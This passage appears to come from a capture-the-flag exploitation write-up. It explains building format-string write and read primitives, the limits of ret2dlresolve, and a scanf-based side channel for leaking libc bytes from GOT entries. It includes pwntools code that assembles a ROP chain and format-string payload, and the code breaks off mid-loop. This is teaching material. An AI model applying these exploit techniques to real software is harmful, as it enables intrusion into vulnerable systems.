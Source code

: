 We use this to create 2 format strings:

- One writes 2 bytes to a given address, useful for partially overwriting GOT entries.
- The other reads 16 bytes to a given address, useful for everything else, including building
  ropchains and writing more format strings.

NOTE: ret2dlresolve would be ideal here, as we have no ASLR leaks or libc version, but PIE is
off and the binary is only using partial RELRO.
Unfortunately, the `.text` section is likely too far from writiable data for this attack to work.
This is because the linker attempts to write to the GOT when resolving symbols.
If we try a ret2dlresolve here, the linker attempts to write to an unwritable region of memory and
the program segfaults.

### Leaking the libc version

To use partial GOT overwrites and ret2libc, we need to determine the libc version on the server.

This is complicated by the fact that we have no leaking functions in the binary.

Originally, I considered using ROP gadgets to try leaking a libc address 1 bit at a time.
The idea was that leaking the least significant byte should be enough to narrow down the possible
versions significantly.
With enough leaks, we could use a libc database to find the exact libc version.
The problem with this approach was that I was limited by the gadgets in the binary.
I couldn't find a way to set up a conditional jump with registers I controlled.
I also couldn't easily dereference a pointer and store the value in a register.

Our solution lies in the behaviour of `scanf`.
When scanf reaches characters that are not conversion specifiers, the characters must match
exactly, otherwise it will return.
If we pass a GOT address as our first pointer, it will interpret the libc address as the expected
string.
If we send a correct character, it will continue to read input as long as our inputs match.
If we send a different character, `scanf` will return.
We can use this boolean condition to leak the least significant bytes of functions in the GOT that
have already been resolved.
In our case, `fgets` and `scanf` can be leaked.

We can adapt our payload from above to test our guesses for the LSB of `fgets`:

```py
rop = ROP(exe)

rop.raw(rop.find_gadget(['ret'])[0])
rop.call('__isoc99_scanf', [exe.got['fgets']])

ropchain = flat(rop.chain(), length=128)

fmt = "%4${}c".format(24 + len(ropchain)).encode()

payload = flat({
    0: fmt,
    0x8: b"%12$p%4c",
    0x10: pack(exe.got['memset']) + ropchain,
    }, filler=b' ')

info("Payload size: " + str(len(payload)))

overwrites = flat([
    hex(rop.find_gadget(['leave', 'ret'])[0]).encode(),
    " %{}c".format(8).encode(),
    ])

print(overwrites)
fgets_guess = ""

for i in range(0x30, 0x100, 0x10):
```
